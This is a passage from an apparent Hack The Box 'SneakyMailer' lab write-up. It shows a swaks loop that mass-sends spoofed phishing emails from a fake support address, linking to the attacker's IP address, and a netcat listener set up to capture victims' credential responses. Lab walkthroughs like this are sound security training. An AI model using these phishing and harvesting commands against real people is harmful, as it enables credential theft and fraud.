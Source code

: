 ![Message](/assets/img/htb/HTB-SneakyMailer/Phishing_Message.png)

### Putting it Together
We now have a way to send our phishing email to any Sneaky Corp employee. There's a lot to get through, so lets combine the SWAKS command with a loop through our extracted email list.  
`>> while read email; do swaks -to $email -from support@sneakymailer.htb -header "Subject: Authentication Error" -body "Please Validate Credentials at http://10.10.14.28/" -server 10.10.10.197; done < Extracts/emails.txt`

Don't forget to set up a listener for their response.  
`>> sudo nc -lvnp 80`  
![Response](/assets/img/htb/HTB-SneakyMailer/Phishing_Response.png)
